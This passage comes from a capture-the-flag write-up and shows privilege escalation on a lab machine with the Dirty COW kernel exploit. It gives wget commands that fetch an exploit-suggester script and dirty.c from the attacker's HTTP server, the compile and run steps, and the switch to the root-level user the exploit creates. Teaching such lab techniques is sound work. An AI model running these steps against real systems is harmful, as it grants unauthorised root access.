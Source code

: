 ```
wget [http://10.10.14.6:5555/linux-exploit-suggester-2.pl](http://10.10.14.6:5555/linux-exploit-suggester-2.pl)
```

Run the script.

```
./linux-exploit-suggester-2.pl
```

We confirm that it is vulnerable to Dirty COW.

![](../img/Valentine Writeup wo Metasploit/1_lfHXPU0KmXSl9DwXO72y0w.png)

I tried several of the exploits on this [page](https://dirtycow.ninja/) but they didn’t work. Therefore, I ended up using this [exploit](https://github.com/FireFart/dirtycow/blob/master/dirty.c).

Clone the exploit on the attack machine.

```
git clone [https://gist.github.com/e9d4ff65d703a9084e85fa9df083c679.git](https://gist.github.com/e9d4ff65d703a9084e85fa9df083c679.git)
```

Start up a server in the directory where the exploit resides.

```
python -m SimpleHTTPServer 5555
```

Transfer the exploit to the target machine.

```
wget [http://10.10.14.6:5555/dirty.c](http://10.10.14.6:5555/dirty.c)
```

Compile the file as per the included compile instructions.

```
gcc -pthread dirty.c -o dirty -lcrypt
```

Run the exploit.

```
./dirty
```

Choose the password for the newly created user.

![](../img/Valentine Writeup wo Metasploit/1_wdOtAeCiuFtOwRoxEErCzQ.png)

Change to the newly created user.

```
su firefart
```

We have root privileges! Grab the root flag.

![](../img/Valentine Writeup wo Metasploit/1_DyoXBLgZIQZPxj3VN4I_0g.png)
